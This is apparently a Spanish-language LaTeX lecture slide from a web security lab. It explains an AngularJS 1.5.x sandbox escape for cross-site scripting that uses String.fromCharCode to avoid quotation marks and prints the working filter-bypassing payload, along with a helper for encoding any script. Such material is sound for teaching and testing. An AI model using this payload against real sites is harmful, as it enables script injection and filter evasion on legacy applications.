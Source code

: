 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{AngularJS Sandbox Escape --- Sin Cadenas de Texto}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto --- AngularJS Sandbox (versiones $\leq$ 1.5.x)
  \item AngularJS evalúa expresiones \{\{\}\} en el scope y aplica un sandbox que impide acceder a window o Function directamente.
  \item El payload básico \{\{\$on.constructor('alert(1)')()\}\} usa comillas simples $\rightarrow$ filtros lo bloquean.
  \item Técnica 'sin cadenas': construir el payload evitando cualquier literal de string.
  \item Clave --- fromCharCode como constructor de strings
  \item toString().constructor $\rightarrow$ String
  \item String.fromCharCode(97,108,101,114,116,40,49,41) $\rightarrow$ 'alert(1)'
  \item Así se construye cualquier string sin escribir comillas.
  \item Payload Lab 51-52 --- sandbox escape sin strings
  \item \cmd{\{\{toString().constructor.prototype.charAt=[].join;}
  \item \cmd{[1]|orderBy:toString().constructor.fromCharCode(}
  \item \cmd{119,105,110,100,111,119,91,39,97,108,101,114,116,39,93,40,49,41)\}\}}
  \item $\rightarrow$ fromCharCode(...) construye window['alert'](1) sin usar comillas
  \item Obtener los códigos ASCII del payload
  \item \cmd{'window[\textbackslash\{\}'alert\textbackslash\{\}'](1)'.split('').map(c =\textgreater{} c.charCodeAt(0)).join(',')}
  \item AngularJS 1.6+ eliminó el sandbox --- esta técnica aplica solo a apps legacy con versiones antiguas de Angular.
  \end{itemize}
\end{frame}
\end{document}
